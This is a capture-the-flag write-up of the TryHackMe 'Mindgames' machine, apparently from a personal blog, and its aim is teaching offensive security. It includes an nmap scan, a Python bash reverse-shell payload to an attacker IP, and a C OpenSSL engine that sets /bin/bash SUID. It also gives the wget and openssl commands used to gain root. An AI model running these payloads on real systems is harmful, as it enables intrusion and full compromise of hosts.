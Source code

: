 ```yaml
---
date: 2020-06-12 21:12:32
layout: post
title: "Mindgames"
subtitle: Hard Machine from Tryhackme
description: 
image: /writeup/assets/img/mindgames/mindgames.png
optimized_image:
category: tryhackme
tags: hard
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/mindgames">Link</a> to the machine on tryhackme.

I started with the nmap scan to look for open ports.
```bash
nmap -T4 -p- -A 10.10.132.232
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 03:14 IST
Nmap scan report for 10.10.132.232
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   326.10 ms 10.9.0.1
2   326.18 ms 10.10.132.232

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.36 seconds

```

Found 2 open ports. Accessed the site hosted on port 80 to find obfuscated text called Brainfuck programming language.
![placeholder](/writeup/assets/img/mindgames/site.png "site")
Decrypted the examples given on site using <a href="https://www.dcode.fr/brainfuck-language">Dcode.fr</a>
![placeholder](/writeup/assets/img/mindgames/print.png "helloworld")

The Brainfuck code translated into the python3 commands and those commands were executed.

Created a payload of python reverse shell in Brainfuck language by using this <a href="https://copy.sh/brainfuck/text.html">Website</a>
```python3
import os

os.system('bash -c "bash -i >& /dev/tcp/10.9.12.192/8888 0>&1"')
```
![placeholder](/writeup/assets/img/mindgames/payload.png "payload")

Executed the payload through the website homepage to get a reverse shell.

Got the user shell and found the user.txt

Ran Linpeas on the machine and found some interesting capabilities.
![placeholder](/writeup/assets/img/mindgames/cap.png "capabilities")
 
 So the openssl binary was given interesting permission *setuid*
 
 Went to GTFObins and found that openssl command can be used to load specific shared libraries to execute commands.
![placeholder](/writeup/assets/img/mindgames/so.png "sharedlibrary")

Tried to create a .so file from simple c++ code. But falied.

Found this <a href="https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/">page</a> and used the code from it to create .so file.
```c
#include <openssl/engine.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static const char *engine_id = "test";
static const char *engine_name = "hope it works";

static int bind(ENGINE *e, const char *id)
{
  int ret = 0;

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod u+s /bin/bash");      #Makes /bin/bash SUID binary
  system("echo done");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Made a shared library out of this c++ code.
```bash
gcc -c fPIC test.c -o test
gcc -shared -o test.so -lcrypto test
```

Uploaded the file to the machine using wget,
```bash
wget http://10.9.12.192/test.so
``` 
Executed the following command from GTFObins to make the bash binary a SUID binary.
```
openssl req -engine /home/mindgames/test.so
```
![placeholder](/writeup/assets/img/mindgames/rce.png "rce")
This made the bash binary a SUID binary.

```bash 
bash -p
```
Got the root shell and found root.txt.
![placeholder](/writeup/assets/img/mindgames/root.png "root") 
